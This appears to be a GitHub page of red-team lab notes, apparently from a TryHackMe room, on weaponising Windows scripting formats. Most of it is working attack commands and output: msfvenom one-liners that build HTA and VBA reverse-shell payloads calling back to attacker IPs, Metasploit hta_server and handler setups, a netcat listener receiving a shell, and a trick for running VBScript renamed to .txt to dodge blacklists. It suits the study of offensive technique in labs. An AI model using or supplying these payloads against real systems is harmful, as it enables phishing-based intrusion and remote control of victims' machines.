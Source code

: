 # Weaponization

## Windows Scripting Host (WSH)
It is a Windows native engine, `cscript.exe` (for command-line scripts) and `wscript.exe` (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe.   
```
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```
```
c:\Windows\System32>wscript c:\Users\thm\Desktop\payload.vbs
c:\Windows\System32>cscript.exe c:\Users\thm\Desktop\payload.vbs 
```
Another trick. If the VBS files are blacklisted, then we can rename the file to `.txt` file and run it using `wscript` as follows,
```
c:\Windows\System32>wscript /e:VBScript c:\Users\thm\Desktop\payload.txt
```  

## An HTML Application (HTA)
HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic `HTML` pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.  
### HTA Reverse Connection
```
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```
```
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```
### Malicious HTA via Metasploit 
```
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```

## Visual Basic for Application (VBA)
```
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
```
Import to note that one modification needs to be done to make this work.  The output will be working on an MS excel sheet. Therefore, change the `Workbook_Open()` to `Document_Open()` to make it suitable for MS word documents.  
```
user@AttackBox$ msfconsole -q
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.50.159.15
LHOST => 10.50.159.15
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.50.159.15:443 
```
